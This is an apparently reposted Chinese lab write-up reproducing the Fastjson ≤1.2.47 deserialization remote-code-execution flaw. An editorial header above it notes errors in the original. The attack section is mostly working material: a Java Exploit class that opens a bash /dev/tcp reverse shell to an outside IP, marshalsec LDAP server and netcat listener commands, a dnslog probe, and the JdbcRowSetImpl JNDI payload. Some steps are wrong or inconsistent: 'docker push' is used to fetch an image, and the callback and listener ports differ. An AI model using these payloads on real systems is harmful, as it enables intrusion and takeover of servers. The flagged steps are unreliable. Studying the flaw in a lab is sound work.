

## 核对与使用边界

- 明确更正：`docker push` 是上传镜像，不是下载镜像；原下载步骤的命令作为历史误文保留。该 1.2.47 实验不能证明简介中所有 &lt; 1.2.68 均受同一链影响。
- 实验不一致：回连地址写 1888，监听端口写 8089，二者不匹配；不将这份原样命令标成功。JNDI 限制应核对执行反序列化的服务端 JVM/JDK，不能只检查操作者本地 JDK；镜像 ID 未固定也不能代替依赖锁。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Title&lt;=47 vs intro&lt;68; unpinned3rdparty image; RMI&lt;8u121/LDAP&lt;8u182 claims

代码与实验材料：Full class/LDAP/payload, empty screenshot slots; docker push wrongly used to download; callback1888 vs listener8089

来源证据范围：Original WeChat,lmxspace,marshalsec

- **结论使用边界（1）**：docker push download instruction wrong; port mismatch; broader intro range not proven by47lab。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：JDK caveat refers local rather than vulnerable process andLDAP boundary questionable; image ID not portable。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Fastjson 小于等于 1.2.47 反序列化漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DqXbu0MRRoX_Iz0rgz214Q)

0x01 前言
=======

Fastjson 是一个 Java 语言编写的高性能功能完善的 JSON 库，可以将 Java 对象转换为 JSON 格式，也可以将 JSON 字符串转换为 Java 对象，在中国和美国使用较为广泛。



0x02 漏洞成因
=========

Fastjson < 1.2.68 版本在处理反序列化对象时存在安全问题，导致攻击者可以执行 java 代码，具体分析可参考：

http://www.lmxspace.com/2019/06/29/FastJson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/#%E5%85%B3%E4%BA%8EFastJson%E7%9A%84%E8%A7%A3%E6%9E%90%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90

0x03 环境准备
=========

docker 搜索 Fastjson 漏洞利用镜像：  
`docker search fastjson`


这里选择 fastjson1.2.47_rce 镜像进行漏洞复现，将镜像 push 回本地：  
`docker push initidc/fastjson1.2.47_rce`

查看本地镜像：  
`docker images`


开启镜像：  
`docker run -it -p 8080:8080 a82832ac7f62`

复现漏洞还需要在本地开启 rmi 或 ldap 服务，这里我们使用 marshalsec 快速开启 rmi 或 ldap 服务，下载地址：https://github.com/mbechler/marshalsec

下载解压后进入 marshalsec 文件夹，使用 maven 编译出 jar 包（没有 maven 自行下载安装）：  
`mvn clean package -DskipTests`


编译完成后在 target 文件夹中找到我们需要的 jar 文件：marshalsec-0.0.3-SNAPSHOT-all.jar


最后准备我们的攻击代码：

```
import java.io.BufferedReader;  
import java.io.InputStream;  
import java.io.InputStreamReader;  
  
public class Exploit{  
    public Exploit() throws Exception {  
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/192.168.134.130/1888;cat <&5 | while read line; do $line 2>&5 >&5; done"}); //ip端口自行替换为接收shell地址  
        InputStream is = p.getInputStream();  
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));  
  
        String line;  
        while((line = reader.readLine()) != null) {  
            System.out.println(line);  
        }  
  
        p.waitFor();  
        is.close();  
        reader.close();  
        p.destroy();  
    }  
  
    public static void main(String[] args) throws Exception {  
    }  
}  

```

编译出 .class 文件：  
`javac Exploit.java`

OK，环境基本准备就绪。

0x04 漏洞复现
=========

访问环境：  
`http://x.x.x.x:8080/fastjson/`


先进行 dnslog 探测尝试：  
`{"@type":"java.net.Inet4Address","val":"1.sap0b9.dnslog.cn"}`

  


dnslog 探测成功，利用攻击脚本进行攻击尝试。

首先利用 python 起 http ，将攻击代码挂起：  
`python -m http.server 8888`


启动 ladp 服务：  
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://x.x.x.x:8888/#Exploit 9999`


攻击机监听端口：  
`nc -lvvp 8089`


使用攻击 payload 进行反弹攻击：

```
{  
    "name":{  
        "@type":"java.lang.Class",  
        "val":"com.sun.rowset.JdbcRowSetImpl"  
    },  
    "x":{  
        "@type":"com.sun.rowset.JdbcRowSetImpl",  
        "dataSourceName":"ldap://x.x.x.x:9999/Exploit", //你的ldap服务地址  
        "autoCommit":true  
    }  
   
}  

```


成功反弹 shell ，复现成功：


0x05 注意点
========

利用 RMI 或 LDAP 对本地 jdk 版本有要求，利用 RMI 服务 jdk 版本必须低于 8u121 ，利用 LDAP 服务 jdk 版本必须低于 8u182 。


这是我本地 jdk 版本：


0x06 修复方案
=========

升级到最新版本~

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
